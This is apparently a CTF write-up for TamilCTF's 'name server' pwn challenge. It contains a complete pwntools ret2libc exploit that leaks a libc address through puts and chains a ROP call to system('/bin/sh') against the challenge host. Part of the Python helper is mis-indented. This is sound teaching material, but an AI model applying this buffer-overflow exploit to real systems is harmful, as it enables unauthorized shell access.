 # TamilCTF

# NAME SEVER 214 Points ,58 solves


## Checksec Output
```bash
╭─ ~/Desktop/Tamilctf/nameserver/nameserver │ sam0x@parrot                                                                                                                                 ✔ 
╰─ checksec name-serv 
[*] '/home/sam0x/Desktop/Tamilctf/nameserver/nameserver/name-serv'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```



## Analysing the binary on Ghidra



![screenshot](https://github.com/shyam0904a/TamilCTF/blob/master/Pasted%20image%2020210930131942.png)

#### There is no input bound checking 
#### NX is enabled so no shellcoding
#### We can use basic ROP chaining attack to exploit this

## Exploiting

#### TO FIND / CONSTRAINS
           
The lic version is unknown 
			
*since we  know it's a 64 bit binary we just cant directly modify the rsp *
*We cant overwrite RSP with 8 byte value , only 6 Bytes can be used else we get general protextion error * (Canonical and non canonical address comes to play )*
#### Using GEF & finding offset




*we overflow the rbp after 32 bytes *
*so to overwrite the rsp we neet to overwrite rbp +6 *
*i.e we overflow rbp after 32 bytes then the rbp value to rsp value*
*offset = 40*

## The exploitation part



      from pwn import *

      offset = b'A'*40

      ##pwntools context

      context.update(arch='amd64', os='linux')
      p=remote('3.97.113.25', 9001)
      # p=process('name_server_patched')
      elf=ELF('./name-serv',False)
      rop=ROP(elf)



      ##leaking GOT address
      puts_plt=elf.plt['puts']
      puts_got=elf.got['puts']
      main_plt=elf.symbols['main']
      pop_rdi= (rop.find_gadget(['pop rdi', 'ret']))[0]
      ret= (rop.find_gadget(['ret']))[0]


      payload = offset +p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(main_plt) 

      p.recvuntil(b':')
      p.sendline(payload)
      recieved = p.recvline().strip()

      # Parse leaked address

      log.info(f"Len rop1: {len(payload)}")
      leak = u64(recieved.ljust(8, b"\x00"))
      log.info("libc address of puts :" + hex(leak))

      ##setting up libc base

      libc=ELF('libc6_2.31-0ubuntu9_amd64.so')
      libc.address = leak - libc.symbols['puts'] #Save libc base
      log.info("libc base @ %s" % hex(libc.address))


      ##Systm(/bin/sh)Payload

      bin_sh = next(libc.search(b"/bin/sh\x00"))
      system=libc.symbols['system']

      log.info("Bin/sh :" + (hex(bin_sh)))
      log.info("System :" + (hex(system)))


      def generate_payload_aligned(ropp):
        payload1 = offset + ropp
          if (len(payload1) % 16) == 0:
          return payload1

          else:
               payload2 = offset + p64(ret) + ropp

           if (len(payload2) % 16) == 0:
                   log.info("Payload aligned successfully")
                   return payload2
               else:
                   log.warning(f"I couldn't align the payload! Len: {len(payload1)}")
                   return payload1

      payload2= offset + p64(ret)+p64(pop_rdi)+p64(bin_sh)+p64(system)

      log.info("length of payload2 is "  + str(len(payload2)))
      print(p.recvuntil(b':'))
      p.sendline(payload2)
      p.interactive()


*WE GET THE FLAG *
## TamilCTF{ReT_1s_M0rE_p0wErFu1_a5_LIBC}
